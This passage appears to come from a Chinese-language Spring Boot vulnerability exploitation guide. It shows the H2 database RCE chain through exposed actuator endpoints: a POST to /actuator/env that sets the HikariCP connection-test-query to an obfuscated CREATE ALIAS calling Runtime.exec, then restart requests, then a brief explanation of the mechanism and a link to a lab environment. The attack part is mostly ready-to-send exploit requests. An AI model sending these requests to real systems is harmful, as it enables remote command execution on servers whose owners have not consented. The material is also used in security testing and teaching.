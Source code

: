 spring 2.x（无回显执行命令）

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');"}
```



##### 步骤二：重启应用

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json

```



#### 漏洞原理：

1. spring.datasource.hikari.connection-test-query 属性被设置为一条恶意的 `CREATE ALIAS` 创建自定义函数的 SQL 语句
2. 其属性对应 HikariCP 数据库连接池的 connectionTestQuery 配置，定义一个新数据库连接之前被执行的 SQL 语句
3. restart 重启应用，会建立新的数据库连接
4. 如果 SQL 语句中的自定义函数还没有被执行过，那么自定义函数就会被执行，造成 RCE 漏洞



#### 漏洞分析：

​	[remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database)



#### 漏洞环境：

[repository/springboot-h2-database-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-h2-database-rce)

正常访问：

```
http://127.0.0.1:9096/actuator/env
```


